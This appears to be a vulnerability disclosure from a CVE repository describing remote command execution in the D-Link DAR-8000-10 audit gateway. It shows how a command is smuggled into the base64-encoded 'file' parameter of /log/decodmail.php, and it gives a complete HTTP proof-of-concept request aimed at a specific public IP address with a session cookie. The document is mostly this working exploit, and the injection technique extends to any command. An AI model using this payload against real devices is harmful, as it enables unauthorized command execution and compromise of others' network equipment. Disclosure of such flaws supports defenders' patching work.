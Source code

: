The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![WPS图片(1)](https://github.com/TinkAnet/cve/assets/118334129/8a348409-d318-414f-9e80-a0cf25c01d13)

Construct the file parameter /etc/' sleep${IFS}10 '.pcap, and then use base64 encode to construct the file parameter, and successfully execute the system command

POC
```
GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA== HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=25b739a8fcf3db5555845ffce2251be5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
![WPS图片(2)](https://github.com/TinkAnet/cve/assets/118334129/cbb9dc67-e3b9-4fe1-bbef-7dbcfada98d9)


